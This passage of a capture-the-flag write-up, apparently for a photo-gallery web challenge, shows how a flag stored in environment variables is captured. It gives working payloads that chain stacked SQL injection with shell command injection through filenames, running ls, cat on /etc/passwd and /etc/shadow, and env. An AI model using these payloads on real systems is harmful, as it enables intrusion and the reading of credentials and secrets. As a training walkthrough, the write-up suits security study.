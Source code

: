 if __name__ == "__main__":
	app.run(host='0.0.0.0', port=80)
</body></html>
```

#### FLAG0 is captured.

## FLAG2

Looking through ```main.py```, some vulnerable non-parameterzied SQL queries are evident, which have already been exploited to reach this point. However, very significantly a system call is made with no input sanitation or validation in the ```Space used:``` portion of the webapp:

```
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

This vulnerable system call can be exploited via the filenames in the table. For example, changing the filename of the third image to ```;ls``` will change the system call to ```du -ch files/(...) files/(...) files/;ls || exit 0;```. ```ls``` is executed and output reflected on the ```Space used: ``` line.

This is accomplished with the stacked query SQL injection as found earlier: ```fetch?id=1;UPDATE photos set filename=';ls' WHERE id=3; COMMIT #```

This query succeeds and the ```Space used:``` line on the homepage shows the output:

> Space used: uwsgi.ini

However, this output only shows the last line as indicated by the ```.rsplit('\n', 1)[-1]``` portion of the system call line in ```main.py```. The entire output can be seen rather than only the last line by calling ```;ls | tr "\n" " "```. This replaces newlines with spaces.

Now, ```fetch?id=1;UPDATE photos set filename=';ls | tr "\n" " "' WHERE id=3; COMMIT #``` shows the entire output:

> Space used: Dockerfile files main.py main.pyc prestart.sh requirements.txt uwsgi.ini

Any file on the filesystem can be located via ```;ls | tr "\n" " "``` and printed via ```;cat [FILENAME] | tr "\n" " "```, which is a likely route to finding a flag.

Calling ```cat``` on suspicious targets including ```/etc/passwd``` and ```/etc/shadow``` yielded nothing. Going through the hints states: ```Be aware of your environment```

So, try reading the environment variables via ```env``` i.e. ```fetch?id=1;UPDATE photos set filename='env | tr "\n" " "' WHERE id=3; COMMIT #``` which returns:

> Space used: PYTHONIOENCODING=UTF-8 UWSGI_ORIGINAL_PROC_NAME=/usr/local/bin/uwsgi SUPERVISOR_GROUP_NAME=uwsgi **FLAGS=["FLAG0", "FLAG1", "FLAG2"]** HOSTNAME=2fe9e014dc2c SHLVL=0 PYTHON_PIP_VERSION=18.1 HOME=/root GPG_KEY=C01E1CAD5EA2C4F0B8E3571504C367C218ADD4FF UWSGI_INI=/app/uwsgi.ini NGINX_MAX_UPLOAD=0 UWSGI_PROCESSES=16 STATIC_URL=/static UWSGI_CHEAPER=2 NGINX_VERSION=1.13.12-1\~stretch PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin NJS_VERSION=1.13.12.0.2.0-1\~stretch LANG=C.UTF-8 SUPERVISOR_ENABLED=1 PYTHON_VERSION=2.7.15 NGINX_WORKER_PROCESSES=1 SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock SUPERVISOR_PROCESS_NAME=uwsgi LISTEN_PORT=80 STATIC_INDEX=0 PWD=/app STATIC_PATH=/app/static PYTHONPATH=/app UWSGI_RELOADS=0

#### FLAG2 is captured.

All flags captured
=====
